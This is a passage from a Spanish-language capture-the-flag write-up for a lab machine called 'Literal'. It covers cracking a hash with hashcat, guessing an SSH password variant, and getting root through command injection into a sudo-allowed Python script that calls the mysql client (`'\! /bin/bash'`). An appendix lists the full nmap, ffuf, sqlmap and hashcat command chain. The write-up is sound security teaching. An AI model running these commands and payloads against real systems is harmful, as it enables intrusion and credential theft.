#### `-m 1700`

Modo de hash correspondiente a SHA2-512.

#### `hash`

Archivo que contiene el hash a crackear.

#### `/usr/share/wordlists/rockyou.txt`

Wordlist clásica para laboratorios y auditoría de contraseñas.

## 27.3. Resultado

Hashcat recupera:

```text
forum100889
```

Esa es la contraseña en texto claro asociada al hash.

---

# 28. Acceso inicial por SSH

Se prueba la credencial en el foro, pero no da acceso. También se prueba por SSH:

```bash
ssh carlos@192.168.1.38
```

con `forum100889`, pero falla.

Aquí entra una parte de razonamiento lateral muy típica de laboratorio:

- ya tenemos un patrón claro,
- el autor de la máquina probablemente juega con contraseñas relacionadas,
- y no hay otra filtración directa de SSH.

Se prueba una variante:

```text
ssh100889
```

Y funciona.

Dentro se comprueba:

```bash
whoami
```

Resultado:

```bash
carlos
```

Ya tenemos acceso inicial al sistema.

---

# 29. Enumeración local y hallazgo crítico con `sudo -l`

Uno de los primeros comandos que conviene lanzar tras comprometer un usuario es:

```bash
sudo -l
```

Resultado:

```text
User carlos may run the following commands on literal:
    (root) NOPASSWD: /opt/my_things/blog/update_project_status.py *
```

## Interpretación

Esto significa:

- el usuario `carlos` puede ejecutar ese script como `root`,
- sin contraseña,
- y pasando argumentos arbitrarios.

Eso convierte inmediatamente al script en el foco principal de la escalada.

---

# 30. Análisis detallado del script `update_project_status.py`

El script trabaja con la BD del blog, concretamente con `projects`.

Una función clave es del estilo:

```python
def execute_query(sql):
    os.system("mysql -u " + db_user + " -D " + db_name + " -e \"" + sql + "\"")
```

## 30.1. Qué hace el script

Conceptualmente:

1. recibe argumentos,
2. construye una consulta SQL,
3. llama al cliente `mysql`,
4. y ejecuta la consulta sobre la base de datos.

Si lo lanzas sin parámetros, imprime la tabla de proyectos.

## 30.2. Por qué `os.system()` es peligroso

`os.system()` ejecuta un comando del sistema operativo mediante la shell.

Eso ya es delicado, porque si mezclas input del usuario dentro de la cadena que va a ejecutar la shell, te arriesgas a:

- command injection,
- malformación del comando,
- o comportamientos no previstos.

## 30.3. Qué papel juega el cliente `mysql`

Aquí Python no habla con MySQL mediante una librería segura, sino que invoca el **cliente CLI** de `mysql`.

Eso es importante porque el cliente `mysql` tiene comandos especiales propios, entre ellos:

```text
\! comando
```

que permite ejecutar un comando del sistema.

## 30.4. Diferencia entre SQL Injection y Command Injection

### SQL Injection

Alteras la consulta SQL.

Ejemplo conceptual:

```sql
SELECT * FROM projects WHERE id = 1 OR 1=1;
```

### Command Injection

Consigues que la shell o el programa lance comandos del sistema.

Aquí el gran problema no es solo la consulta SQL, sino que el input acaba llegando a un binario que puede ejecutar comandos del sistema, y además lo estamos lanzando con `sudo` como root.

---

# 31. Escalada de privilegios a root

## 31.1. Payload usado

```bash
sudo /opt/my_things/blog/update_project_status.py '\! /bin/bash'
```

## 31.2. Qué significa `\! /bin/bash` dentro de `mysql`

Dentro del cliente `mysql`, la secuencia:

```text
\! /bin/bash
```

significa:

> ejecuta `/bin/bash` en el sistema operativo.

No es SQL puro. Es una funcionalidad del cliente interactivo.

## 31.3. Qué pasa exactamente aquí

El script construye algo equivalente a:

```bash
mysql -u carlos -D blog -e "\! /bin/bash"
```

Y como el script se está ejecutando con `sudo`, el proceso corre como **root**.

Entonces el cliente `mysql` interpreta `\! /bin/bash` y lanza una shell del sistema... también como **root**.

Resultado:

```bash
root@literal:/home/carlos#
```

## ¿Por qué la shell sale como root?

Porque:

1. `sudo -l` permitía ejecutar el script como root,
2. el script llama a `mysql`,
3. `mysql` recibe un comando especial que ejecuta `/bin/bash`,
4. y todo el flujo está ocurriendo en un proceso privilegiado.

Esto combina varias malas prácticas:

- delegación peligrosa por `sudo`,
- uso inseguro de `os.system()`,
- input no saneado,
- y capacidad del cliente `mysql` de ejecutar comandos.

---

# 32. Relación con GTFOBins

GTFOBins es una referencia de binarios Unix que pueden usarse para:

- leer archivos,
- escribir archivos,
- escapar de restricciones,
- o escalar privilegios,

cuando se ejecutan en contextos especiales como `sudo`, `SUID`, etc.

Aunque aquí el binario directamente invocado por `sudo` es el script Python, no `mysql` como tal, la lógica es muy parecida al tipo de abuso que GTFOBins documenta sobre binarios capaces de ejecutar comandos del sistema.

En esencia, este caso demuestra exactamente por qué no basta con pensar “solo le doy acceso a un script de mantenimiento”: si ese script encapsula herramientas peligrosas y acepta entrada controlada, el riesgo sigue siendo enorme.

---

# 33. Obtención de `user.txt` y `root.txt`

Una vez dentro como root, se puede listar la home de `carlos` y leer:

```bash
cat /home/carlos/user.txt
```

y luego la de root:

```bash
cat /root/root.txt
```

Con eso la máquina queda completamente comprometida.

---

# 34. Resumen técnico de la cadena completa

La cadena de ataque completa fue:

1. la máquina falla al importar en VMware,
2. se levanta en VirtualBox y se configura bridge para que conviva con Kali en VMware,
3. se descubre la IP correcta identificando la MAC de VirtualBox por su OUI,
4. se escanean puertos y se descubre un blog en `blog.literal.hmv`,
5. se añade el virtual host a `/etc/hosts`,
6. se fuzzéan rutas y se encuentran login/registro,
7. se crea un usuario legítimo,
8. en una funcionalidad interna se detecta una **UNION SQLi visible**,
9. se enumeran BD, tablas, columnas y registros de forma manual,
10. se descubre un nuevo subdominio: `forumtesting.literal.hmv`,
11. en el foro se detecta una **time-based blind SQLi** con sqlmap,
12. se extrae la tabla `forum_owner`,
13. se obtiene el hash de `carlos`,
14. se crackea con Hashcat y se recupera `forum100889`,
15. se razona una variante para SSH: `ssh100889`,
16. se accede como `carlos`,
17. `sudo -l` revela un script Python ejecutable como root,
18. el script usa `os.system()` para invocar `mysql`,
19. se abusa de `\! /bin/bash` dentro del cliente `mysql`,
20. se obtiene shell como root.

---

# 35. Lecciones importantes que deja esta máquina

## 35.1. Entender la red importa tanto como explotar

Si no entiendes NAT vs bridge, puedes bloquearte incluso antes de empezar a atacar.

## 35.2. Una MAC puede darte información ofensiva valiosa

El OUI de una MAC puede ayudarte a identificar qué host es tu víctima cuando escaneas una red “ruidosa”.

## 35.3. Las SQLi visibles enseñan muy bien cómo piensa la base de datos

La parte manual del blog es excelente para aprender:

- columnas,
- compatibilidad,
- `UNION`,
- `information_schema`,
- `group_concat`.

## 35.4. Las blind time-based justifican por qué herramientas como sqlmap existen

No porque tú no puedas hacerlo a mano, sino porque sería extremadamente lento y tedioso.

## 35.5. Exponer un script privilegiado con herramientas peligrosas por debajo es una mala idea

No hace falta dar `sudo bash` para estar en problemas. Basta con delegar un script mal diseñado que invoque programas con capacidad de escape.

## 35.6. `os.system()` + input del usuario + `sudo` es una combinación muy peligrosa

Es una receta clásica para desastre.

## 35.7. No siempre obtienes la contraseña exacta del servicio que quieres

A veces obtienes una pista, un patrón, y necesitas razonar una variación plausible.

---

# Apéndice A. Comandos principales usados

```bash
cd ~/Desktop
cd HackMyVM
mkdir Literal
cd Literal

sudo nmap -n -sn 192.168.1.42/24
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.38

sudo nano /etc/hosts
# 192.168.1.38 blog.literal.hmv
# 192.168.1.38 forumtesting.literal.hmv

ffuf -u 'http://blog.literal.hmv/FUZZ' -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
ffuf -u 'http://blog.literal.hmv/FUZZ' -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -e .php,.txt,.js

sqlmap -r req.txt --batch --dbs
sqlmap -r req2.txt --batch --dbs
sqlmap -r req2.txt --batch -D forumtesting --tables
sqlmap -r req2.txt --batch -D forumtesting -T forum_owner --dump

hashcat -a 0 -m 1700 hash /usr/share/wordlists/rockyou.txt

ssh carlos@192.168.1.38
sudo -l
sudo /opt/my_things/blog/update_project_status.py '\! /bin/bash'
```

---

# Apéndice B. Puntos que más conviene recordar

- `bridge` pone la VM en la red real.
- El OUI de la MAC puede delatar qué hipervisor usa una VM.
- Un virtual host descubierto por Nmap suele implicar que necesitas tocar `/etc/hosts`.
- Una SQLi UNION visible es ideal para aprender explotación manual.
- `information_schema` describe la estructura de MySQL.
- `group_concat` es muy útil para compactar resultados en una sola celda visible.
- Una blind time-based usa el tiempo como canal de comunicación.
- `sqlmap` no hace magia: automatiza preguntas booleanas y temporales.
- Un hash crackeado no siempre es directamente reutilizable en el servicio que quieres.
- `sudo -l` es obligatorio tras conseguir acceso.
- `os.system()` y `mysql` pueden convertirse en una escalada brutal si el diseño es inseguro.
